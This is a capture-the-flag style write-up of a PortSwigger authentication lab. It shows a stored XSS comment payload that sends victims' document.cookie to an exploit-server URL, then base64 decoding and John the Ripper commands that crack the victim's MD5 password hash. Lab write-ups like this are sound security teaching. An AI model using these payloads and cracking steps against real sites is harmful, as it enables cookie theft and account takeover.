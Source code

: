 ### Offline password cracking : PRACTITIONER

---

> My credentials `wiener:peter`.
> Victim username `carlos`.

> First thing's first, login as `wiener` and observe the stay logged in cookie using BURPSUITE PROXY HTTP history feature.

![lab11-login](./screenshots/lab10-login.png)

> See that the `GET` request to fetch the user has a cookie called `stay-logged-in`.

![](Pasted-image-20230702175008.png)

> Similar to [[Portswigger/Authentication/Lab 10|Lab 10]], this cookie is constructed as the base64 encoding of the username + ':' + MD5Hash(password).
```
stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw;
```

> Decoding it using the Base64 command line tool.
``` bash
echo "d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw" > cookie.txt | base64 cookie.txt -d
```
> Writing the cookie first into a file `cookie.txt`, then using the pipe operator to take the contents of the file and decode it.

> This outputs the following:
```
wiener:51dc30ddc473d43a6011e9ebba6ca770
```
> This means the cookies content consists of the username, `:`, and something encoded.

> Checking its length: 
```bash
cookie="51dc30ddc473d43a6011e9ebba6ca770" 
echo -n "$cookie" | wc -c
```
> This outputs 32, and since it consists of the hexadecimal characters, then it is $32*4=128$ bits, so its probably an `MD5` hash.

> Using John the Ripper tool to unhash this string. We first need to store it in a file.
```bash
echo "wiener:51dc30ddc473d43a6011e9ebba6ca770" > hash
john --format=raw-md5 hash
```
> This outputs the following:
```bash
wiener:peter
```

> This means that the cookie is stored as follows:
```
base64(username:MD5(password))
```

> Next step, is to check the XSS vulnerability in the comment section.
> Trying a simple alert payload does the job.
```
<script>alert()</script>
```

![](Pasted-image-20230702175307.png)

> Posting the comment and visiting the page again pops up the alert.
> Trying to display the cookie using the alert.
```
<script>alert(document.cookie)</script>
```

![](Pasted-image-20230702175741.png)

> This displays the same cookie as the one in the GET and POST requests.
> This is now a stored XSS attack, but we need that to work for the user carlos.
> To do that, we need to send that pop up somewhere where we can see it: the exploit server logs.

> To do that, instead of the alert function, send the cookie using the `document.location` javascript property. This property loads and changes the URL. We can also add strings and assign ones to it.
> Therefore, our payload for the comment will be as such:
```
<script>document.location='exploit-server-url'+document.cookie</script>
```

![](Pasted-image-20230702180219.png)

> Filling in the URL:
```
<script>document.location='https://exploit-0a000015043e518182e2285a014c0022.exploit-server.net/exploit'+document.cookie</script>
```
> Adding this payload as a comment on one of the posts then checking the exploit server logs.

![](Pasted-image-20230702180524.png)

> We see the same IP address and that one has the stay logged in cookie as the one we used for weiner.
> However, the before last line contains a different IP address with a different value for the stay logged in cookie.
```
stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
```

> Following the same steps as the cookie above, we first base64 decode it.
``` bash
echo "Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz" > cookie.txt | base64 cookie.txt -d
```

> This results in: `carlos:26323c16d5f4dabff3bb136f2460a943`.
> Meaning we obtained the cookie for the user `carlos`, now we need to find the string that when MD5 hashed gets this hash `26323c16d5f4dabff3bb136f2460a943` using John the Ripper.
``` bash
echo "carlos:26323c16d5f4dabff3bb136f2460a943" > hash
john --format=raw-md5 hash
```
> Storing it first in a file.

> Took too long, so I went to this [website](https://md5decrypt.net/en/) to complete it faster.

![](Pasted-image-20230702181224.png)

> Revealing the password as `onceuponatime`.
> Loggin in as carlos and deleting the account completes the lab.

---
